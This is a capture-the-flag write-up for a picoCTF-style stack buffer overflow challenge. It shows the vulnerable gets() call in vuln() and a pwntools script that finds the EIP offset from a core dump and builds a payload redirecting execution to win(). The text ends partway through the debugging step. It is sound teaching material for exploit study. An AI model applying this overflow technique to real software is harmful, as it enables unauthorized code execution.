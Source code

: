 
We can see that the `win()` function takes two arguments (`arg1`, `arg2` ). 
It opens the file `flag.txt` and stores its contents to a buffer.
It then performs some checks on the arguments.
If either of the checks fail the function returns without ever printing the flag. Therefore our goal is to call `win(0xCAFEF00D, 0xF00DF00D)`.

What about the other functions?
The next function is `vuln()`. 
This is what will allow us to perform a buffer overflow and overwrite the stack.

```c
#define BUFSIZE 100
[ . . . ]
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
Now the `main()` function.
We can see that we are asked for an input that gets passed to the `vuln()` function (remember `vuln()` uses `gets()` to put the data in the buffer. `gets()` does not perform checks to avoid buffer overflows so this is our way in.

## 🔎 Debugging

We will use what we learnt from the previous challenge to automatically overwrite the **EIP**.

```python
from pwn import *

elf = context.binary = ELF('./vuln')

p = process(elf.path)
p.sendline(cyclic(200)) # Cause SIGSEGV
p.wait()

core = Coredump('./core') # Parse the core file
log.info(f"EIP: {core.eip}")
log.info(f"win: {elf.symbols.win}")

payload = flat({
	cyclic_find(core.eip): elf.symbols.win # Pad the win address
})

log.info(f"Payload: {payload}")
```

```bash
$ python exploit.py
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln': pid 96975
[*] Process '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln' stopped with exit code -11 (SIGSEGV) (pid 96975)
[+] Parsing corefile...: Done
[*] '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/core'
    Arch:      i386-32-little
    EIP:       0x62616164
    ESP:       0xff8e6b30
    Exe:       '/home/skeleton/ctf/pico/binary_exploitation/buffer_overflow_2/vuln' (0x8048000)
```